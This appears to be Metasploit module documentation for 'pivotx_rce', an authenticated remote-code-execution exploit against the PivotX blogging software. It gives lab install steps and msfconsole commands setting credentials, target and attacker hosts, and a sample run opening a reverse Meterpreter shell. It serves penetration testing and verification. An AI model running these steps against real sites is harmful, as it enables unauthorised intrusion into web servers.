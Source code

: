 ## Vulnerable Application

PivotX is free software to help you maintain dynamic sites such as weblogs, online journals and other frequently updated websites in general.
It's written in PHP and uses MySQL or flat files as a database.

Install steps:

1. Install Apache2, MySQL, PHP8.2+
1. `git clone https://github.com/pivotx/PivotX.git`
1. Move `PivotX` to webfolder
1. Run the following from the web folder `sudo chown -R www-data:www-data ./`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pivotx_rce`
1. Do: `set USERNAME [PivotX username]`
1. Do: `set PASSWORD [PivotX password]`
1. Do: `set RHOSTS [target IP]`
1. Do: `set LHOST [attacker IP]`
1. Do: `run`

## Options


### USERNAME

PivotX username.

### PASSWORD

PivotX password.

## Scenarios

```
msf exploit(linux/http/pivotx_rce) > run verbose=true 
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Sending stage (40004 bytes) to 192.168.168.146
[*] Meterpreter session 4 opened (192.168.168.128:4444 -> 192.168.168.146:40562) at 2025-07-18 14:20:03 +0200

meterpreter > sysinfo
Computer    : ubuntu
OS          : Linux ubuntu 6.8.0-52-generic #53~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Wed Jan 15 19:18:46 UTC 2 x86_64
Meterpreter : php/linux

```
